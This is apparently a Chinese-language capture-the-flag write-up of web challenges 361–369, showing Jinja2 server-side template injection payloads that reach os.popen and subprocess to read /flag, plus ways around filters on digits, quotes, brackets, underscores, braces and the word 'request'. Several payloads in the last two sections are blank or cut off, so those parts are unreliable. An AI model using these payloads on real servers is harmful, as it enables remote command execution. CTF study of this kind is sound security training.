





# web361

## #jinja2的ssti



既然知道了漏洞是什么，那首先就是要去找到注入点

但是在页面源代码和抓包里也没找到什么，扫目录也啥都没有

根据hello猜测参数可能是name或者id，测试后发现是name参数



测一下ssti漏洞

传入`{{10*10}}`出现100，初步判断存在ssti注入漏洞，接下来就是去拿类然后进行注入了

```
第一步，拿到当前类，也就是用__class__
{{"".__class__}}
<class 'str'>
第二步，拿到基类，这里可以用__base__，也可以用__mro__
{{"".__class__.__base__}}
<class 'object'>
第三步，拿到基类的子类，用__subclasses__()
{{"".__class__.__base__.__subclasses__()}}
```

然后我们找<class 'os._wrap_close'>，大多数利用的是`os._wrap_close`这个类，可以执行命令，但是需要注意的是，这个类是python的标准库，所以需要在python环境下运行。

然后找到这个类的下标是在132，选择一下这个类

```
{{"".__class__.__base__.subclasses__()[132]}}
```

找到了后面就调用里面的

```
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}} 
```

解释一下这个payload

```
"".__class__: 获取空字符串的类，即str。
.__bases__[0]: 获取str类的基类，即object。object是所有Python类的基类。
.__subclasses__(): 获取object类所有的直接子类列表。
[132]: 选择列表中的第133个子类（因为索引是从0开始的）。这个特定的子类是不确定的，因为它取决于Python的实现和可能加载的其他模块。
.__init__: 获取该子类的初始化方法（如果存在的话）。
.__globals__: 获取定义__init__方法的模块的全局变量字典。
['popen']: 从全局变量字典中获取名为popen的引用。这通常指的是os.popen函数，该函数用于执行一个命令并返回一个文件对象。
```

# web362

## #过滤部分数字

后面在传下标时候出了问题

```
?name={{"".__class__.__base__.__subclasses__()[132]}}
```



应该是数字被过滤了，我们绕过一下

## 绕过数字过滤

### 1.用加减乘除算式

用140-8



### 2.利用subprocess.Popen()

`subprocess.Popen()` 是 Python 中 `subprocess` 模块的一个类

主要功能

1. **启动外部程序**：可以运行外部命令或程序，无论是系统命令还是其他可执行文件。
2. **输入输出重定向**：能够重定向子进程的标准输入、标准输出和标准错误流。
3. **进程管理**：可以控制子进程的执行，获取其返回值，甚至在需要时终止它。

基础语法结构

```python
import subprocess

process = subprocess.Popen(
    args,                     # 要执行的命令及其参数
    bufsize=-1,              # 缓冲区大小，-1表示使用系统默认
    executable=None,         # 指定要执行的程序，默认根据 args 来确定
    stdin=None,              # 标准输入的重定向
    stdout=None,             # 标准输出的重定向
    stderr=None,             # 标准错误的重定向
    preexec_fn=None,        # Unix特有，子进程执行前调用的函数
    close_fds=True,         # 关闭子进程的文件描述符
    shell=False,             # 是否通过shell执行命令
    cwd=None,                # 子进程的工作目录
    env=None,                # 自定义的环境变量
    universal_newlines=False,# 是否将输入输出转换为文本模式
    startupinfo=None,        # Windows特有，用于进程启动信息
    creationflags=0          # Windows特有，创建进程的标志
)
```

那我们这道题的payload就是

```python
?name={{().__class__.__mro__[1].__subclasses__()[407]("cat /flag",shell=True,stdout=-1).communicate()[0]}}
```

其实绕过的方法就是去凑数字或者是采用其他类，这个主要是看积累了

# web363

## #过滤单双引号

在第一步查看当前类就卡住了，一开始以为是class被过滤了，后面发现是单双引号被过滤了

## 绕过单双引号过滤

我们可以用括号去绕过前面的单双引号

但是我们到后面调用这个popen方法的时候好像这样是绕不过去

```
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[popen]}}
```

我们可以用request内置对象去进行绕过

## request 旁路注入

通过request内置对象去得到请求的信息，从而传递参数

GET方式，用request.args传递参数(GET传参)

```
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.args.a](request.args.b).read()}}&a=popen&b=ls /
拿flag
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.args.a](request.args.b).read()}}&a=popen&b=cat /flag
```

POST方式，利用request.values传递参数(POST或者GET传参)

```
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.values.a](request.values.b).read()}}&a=popen&b=ls /
```

Cookie方式，利用request.cookies传递参数(Cookie传参)

```
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.cookies.a](request.cookies.b).read()}}&a=popen&b=ls /
```

# web364

## #增加过滤args

测试后发现是过滤了引号和args

```
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.args.a](request.args.b).read()}}&a=popen&b=ls
```

说明上一道题确实预期解是request内置对象去传参

args被过滤了，我们可以试一下post方法的values

用request的values进行post传参



```
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__[request.values.a](request.values.b).read()}}&a=popen&b=ls /
```

另外我们讲另一种方法

## 用chr拼接字符

```
?name={%set%20char=config.__class__.__init__.__globals__.__builtins__.chr%}{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__.popen(char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)).read()}}
```

# web365

## #增加过滤中括号

测试后发现中括号被过滤了，我们可以用使用gititem绕过

## 使用\__getitem__()绕过

```
原payload
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__.popen(request.values.a).read()}}&a=cat /flag
绕过payload
?name={{().__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.popen(request.values.a).read()}}&a=cat /flag
```

也可以使用pop绕过

## 使用.pop()绕过

```
原payload
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__.popen(request.values.a).read()}}&a=cat /flag
绕过payload
?name={{().__class__.__base__.__subclasses__().pop(132).__init__.__globals__.popen(request.values.a).read()}}&a=cat /flag
```

以上两种方法也可以结合request去使用

```
getitem()
?name={{().__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.__getitem__(request.values.b)(request.values.a).read()}}&b=popen&a=cat /flag
pop()
?name={{().__class__.__base__.__subclasses__().pop(132).__init__.__globals__.pop(request.values.b)(request.values.a).read()}}&b=popen&a=cat /flag
```

# web366

## #增加过滤下划线

在获取基类的时候发现有过滤，但是不知道是class还是下划线

绕过下划线的时候用request没成功，猜测应该是同时也过滤了中括号，那就试一下另一个方法

## attr(request.values.参数)绕过

```
原payload
{{().__class__}}
绕过payload
{{()|attr(request.values.a)}}&a=__class__
().__class__ 与 ()|attr(“__class__”)是一样的效果，由于下划线被过滤，我们通过传参的方式来解决，即：()|attr(request.values.a)&a=__class__。
```

所以我们的payload就是

```
?name={{(()|attr(request.values.a)|attr(request.values.b)|attr(request.values.c)()|attr(request.values.d)(132)|attr(request.values.e)|attr(request.values.f)|attr(request.values.d)(request.values.h)(request.values.i)).read()}}&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=__init__&f=__globals__&h=popen&i=ls /
```

但是这里可以看到在外头需要加括号，括号的使用是为了明确地控制调用顺序和执行上下文，尤其是在多个属性和方法调用的情况下。

如果不用加括号的话，我们需要把我们的read()函数也换成前面的形式

```
?name={{()|attr(request.values.a)|attr(request.values.b)|attr(request.values.c)()|attr(request.values.d)(132)|attr(request.values.e)|attr(request.values.f)|attr(request.values.d)(request.values.h)(request.values.i)|attr(request.values.j)()}}&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=__init__&f=__globals__&h=popen&i=ls&j=read
```

# web367

## #增加过滤os

用366的payload能打通，后面才知道过滤了os，但是不影响我们的payload

# web368

## #增加过滤花括号

一开始以为是过滤了括号，后面找bypass也没找到什么，后面看wp才发现是过滤了`{{}}`花括号，那我们试着绕过一下

```
用print去进行绕过
```

```
?name=&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=__init__&f=__globals__&g=popen&h=cat /flag
```

使用小括号()获取基类在获取子类找到可以执行os命令的子类再去执行命令也是可以的，不过这种方法比较繁琐，我们使用lipsum获取比较快捷一点。

### 通过lipsum获取os模块

```
?name=&a=__globals__&b=os&c=cat /flag
```

# web369

## #增加过滤request

测试发现过滤了request，前面的方法都打不通了，看wp学到了构造字符的方法

```
 
```

先来解释一下这个代码，也是我们构造字符的开始

1. **``**：这是 Jinja2 中的语法，用于定义一个变量。这里我们正在创建一个变量 `po`。
2. **`dict(po=a,p=a)`**：这部分代码创建了一个字典。字典中的键是 `po` 和 `p`，它们的值都是变量 `a`
3. **`|join`**：`join` 是一个 Jinja2 过滤器。它用于将可迭代对象（如列表或字典的值）连接成一个字符串，通常使用指定的分隔符（如果没有提供，默认是空字符串）。在这个例子中，`join` 会尝试将字典的键或值连接成一个字符串。

```
?name=
```

页面回显pop，可以看出我们成功构造了pop

payload

```python
?name=
          //拼接出pop
         //拼接出_
          //拼接出__init__
       //拼接出__globals__
		//拼接出__getitem__
		//拼接出__builtins__
		
		//使用chr类来进行RCE因为等会要ascii转字符
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}	//拼接出/flag

```
